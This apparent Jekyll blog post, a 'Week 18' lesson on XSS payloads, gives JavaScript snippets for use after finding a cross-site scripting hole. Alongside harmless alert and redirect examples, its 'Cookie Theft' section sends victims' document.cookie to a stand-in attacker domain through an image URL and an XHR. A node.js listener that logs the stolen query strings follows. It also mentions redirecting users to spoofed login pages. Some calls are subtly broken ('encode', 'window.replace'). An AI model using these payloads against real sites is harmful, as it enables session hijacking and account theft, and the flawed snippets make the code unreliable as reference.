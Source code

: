 ```yaml
---
layout: post
title: JavaScript Payloads
subtitle: Week 18
tags: [XSS, exploit]
---
```


You've discovered a XSS vulnerability on a page. What next?

*Submit a confidential report.*

Below are a few simple snippets of JavaScript snippets that can be used for evil.

Of course, you need to be familiar with Javascript first...

- <https://www.w3schools.com/js/tryit.asp?filename=tryjs_intro_inner_html>
- <https://developer.mozilla.org/en-US/docs/Web/JavaScript/A_re-introduction_to_JavaScript>

<https://jsfiddle.net/> is a convenient way to execute JavaScript in your web browser.

*****

# Client Payloads

{% highlight javascript linenos %}

// this is a comment. 

/*
 * BTW, there's no difference between useing single quotes (')
 * or double quote (") for strings in Javascript.
 *
 * Semicolons are optional.
 */
// usage: setTimeout(function, milliseconds);
setTimeout(function() {
  alert("Have a wonderful day! ^_^");
}, 5000);

// usage: setInterval(function, milliseconds);
setInterval(function() {
  alert("Don't forget to be awesome.");
}, 5000);

document.getElementsByTagName('h1')[0].innerHTML = 'Just wanted to say hello :)';

window.replace('http://www.staggeringbeauty.com/');

{% endhighlight %}

Some exploits require more setup. For example, you can inject `window.replace` to have users be sent to a spoofed login page. <https://tools.kali.org/information-gathering/set>

# Cookie Theft

Force unknowing users to connect with your unfriendly server. For the code below, we will assume your server is accessible by the domain "thisisrude.com".


{% highlight javascript linenos %}

let yourCookie = encode(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://thisisrude.com/picture.jpg?cookie=${yourCookie}`;
document.getElementById('image').src = url;

// AJAX - Unnoticed by the typical user.

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://thisisrude.com/gimmie?cookie=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

# Basic node.js Server

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

    let i = req.url.indexOf('?');
    if (i !== -1)
        console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

    res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}
